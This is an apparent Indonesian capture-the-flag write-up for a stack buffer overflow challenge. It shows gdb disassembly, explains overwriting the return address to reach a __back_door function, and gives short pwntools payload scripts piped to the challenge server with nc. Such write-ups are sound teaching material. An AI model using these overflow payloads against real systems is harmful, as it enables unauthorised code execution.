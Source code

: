 # Buffer 2 \(480\)

> `nc 103.200.4.156 8361`

###### POC

Sebenernya sama saja dengan soal buffer yang pertama akan tetapi, di soal ini disuruh untuk loncat ke address function **\_\_back\_door**

```
gdb-peda$ pdisass main
Dump of assembler code for function main:
   0x0000000000400761 <+0>:	push   rbp
   0x0000000000400762 <+1>:	mov    rbp,rsp
   0x0000000000400765 <+4>:	mov    rax,QWORD PTR [rip+0x2008e4]        # 0x601050 <stdout@@GLIBC_2.2.5>
   0x000000000040076c <+11>:	mov    ecx,0x0
   0x0000000000400771 <+16>:	mov    edx,0x2
   0x0000000000400776 <+21>:	mov    esi,0x0
   0x000000000040077b <+26>:	mov    rdi,rax
   0x000000000040077e <+29>:	call   0x400600 <setvbuf@plt>
   0x0000000000400783 <+34>:	mov    eax,0x0
   0x0000000000400788 <+39>:	call   0x40071a <buf2>
   0x000000000040078d <+44>:	mov    eax,0x0
   0x0000000000400792 <+49>:	pop    rbp
   0x0000000000400793 <+50>:	ret    
End of assembler dump.
```

```
gdb-peda$ pdisass buf2
Dump of assembler code for function buf2:
   0x000000000040071a <+0>:	push   rbp
   0x000000000040071b <+1>:	mov    rbp,rsp
   0x000000000040071e <+4>:	sub    rsp,0x40
   0x0000000000400722 <+8>:	lea    rdi,[rip+0x10d]        # 0x400836
   0x0000000000400729 <+15>:	call   0x4005d0 <puts@plt>
   0x000000000040072e <+20>:	lea    rax,[rbp-0x40]
   0x0000000000400732 <+24>:	mov    rsi,rax
   0x0000000000400735 <+27>:	lea    rdi,[rip+0x10d]        # 0x400849
   0x000000000040073c <+34>:	mov    eax,0x0
   0x0000000000400741 <+39>:	call   0x400610 <__isoc99_scanf@plt>
   0x0000000000400746 <+44>:	lea    rax,[rbp-0x40]
   0x000000000040074a <+48>:	mov    rsi,rax
   0x000000000040074d <+51>:	lea    rdi,[rip+0xf8]        # 0x40084c
   0x0000000000400754 <+58>:	mov    eax,0x0
   0x0000000000400759 <+63>:	call   0x4005f0 <printf@plt>
   0x000000000040075e <+68>:	nop
   0x000000000040075f <+69>:	leave  
   0x0000000000400760 <+70>:	ret    
End of assembler dump.
```

Dari address **0x000000000040072e** program akan mengalokasikan 0x40 atau 64bytes, tujuan kita disini iyalah men-overwrite return addressnya, jadi payloadnya...

```py
from pwn import *

backdoor = p64(0x0000000000400702)
print "A"*64 + "B"*8 + backdoor
```

```
>> python payload.py | nc {ip} {port}
```

Sebenarnya dari buffer yang pertama dapat menggunakan bantuan pwntools juga, jadi begini..

```py
from pwn import *

print "A"*16 + p32(0xdeadbeef)
```

Perbedaannya hanya pada fungsi p32 dan p64, karna buffer pertama file ELF 32-bit dan buffer kedua file ELF 64-bit

